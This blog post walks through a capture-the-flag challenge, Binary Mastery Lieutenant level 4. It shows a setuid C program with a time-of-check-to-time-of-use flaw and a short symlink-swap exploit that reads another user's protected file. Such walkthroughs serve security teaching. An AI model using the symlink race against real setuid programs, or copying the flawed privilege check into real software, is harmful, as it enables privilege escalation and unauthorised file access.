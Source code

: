 ![Logo](/assets/images/belts-black.png)


We're finally getting closer to the end of the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. This time we'll analyse another classic vulnerability - **Time of check to time of use (TOCTOU)**. At its roots, the vulnerability is a class of [race condition](https://en.wikipedia.org/wiki/Race_condition). As the [Wikipedia article](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) states:
> **TOCTOU**, pronounced "TOCK too" is a class of software bug caused by changes in a system between the checking of a condition (such as a security credential) and the use of the results of that check.

The vulnerability in this level is actually pretty straight-forward to spot. Although some race-conditions are difficult to exploit reliably, in this case things are easier, as we'll see.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)
* [Binary Master: Lieutenant - Level 2](https://livz.github.io/2016/02/23/binary-master-lieutenant-2.html)
* [Binary Master: Lieutenant - Level 3](https://livz.github.io/2016/03/02/binary-master-lieutenant-3.html)

## 0 - Discovery

Let's see what mitigation techniques we have here, if any, using checksec.sh, downloaded and run locally:

```bash
$ checksec.sh --file level4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   level4
```
So both **NX bit** and **stack canary** are enabled. Sounds difficult t oexploit but let's not worry just yet and have a look at the source code:

```c
/*
 * Nice replacement for 'tail -f'.
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv) {
	FILE* fp;
	char ch;
	int pos = 0;
	int len = 0;

	if (argc != 2) {
		printf("Usage: %s <file>\n", argv[0]);

		return -1;
	}
	
	seteuid(getuid());                                                  [1]
	fp = fopen(argv[1], "r");
	
	if (fp == NULL) {
		char error[50];
		snprintf(error, 49, "Error opening file %s\n", argv[1]);
		fprintf(stderr, "%s", error);       
 
		return -1;
	}
	
	fclose(fp);
	seteuid(1006);                                                      [2]	
	
	for (;;) {
		fp = fopen(argv[1], "rb");                                  [3]

		if (fp == NULL) {
			return -1;
		}

		fseek(fp, 0, SEEK_END);
		len = ftell(fp);
	
		fseek(fp, pos, SEEK_SET);

		while (pos < len) {
			ch = fgetc(fp);
			pos++;
			printf("%c", ch);
		}

		fclose(fp);
		sleep(1);
	}

	return 0;
}
```

First, a bit about the functionality of the application:
* The code at **[1]** _sets the effective user id_ to the actual user id running the process. The effective user id is what the OS checks when making a decision whether to allow an operation or not. To understand more about real and effective user id, check [this link](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id#32456814). 
* Basically this call will drop the privileges temporarily to check if the real user has privileges to open a file or not.
*  the _seteuid()_ call at **[2]** then restores the privileges by setting the effective user id to 1006 (level5), which is the actual owner of the binary:
```
$ id
uid=1005(level4) gid=1005(level4) groups=1005(level4)
$ ls -alh /levels/level4
-rwsr-s--- 1 level5 level4 7.7K May 12 12:36 /levels/level4
```

## 1 - Vulnerability

Although the program will check if the real user has privileges to open the file specified as first parameter,
another _open()_ call is performed at **[3]** without any verification, basically introducing the TOCTOU vulnerability. So in order to exploit this we'll do a few simle stes:
* Create a file in the /tmp folder, for which the application will have access
* While the application is in the _for_ loop waiting for modifications on the file, replace it with a symbolic link to /home/level5/victory. At this point the level5 privileges have been regained so we'll have read access

## 2 - Exploit 

As said before, exploiting this is very straight-forward:

```
$ echo 123 > /tmp/file
$ /levels/level4 /tmp/file &
[1] 11482
$ ln -fs /home/level5/victory /tmp/file
```

## 3 - Profit

```

  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
             
Subject: Victory!

Congrats, you have solved level4. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level4 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level5. If you want, you can log in
as level5 with password   [REDACTED]
```

That's it for now. The [final level]() which we'll see next was the most interesting for me. We'll perform a Man-in-the-Middle attack on a well-known cryptographic encryption scheme.

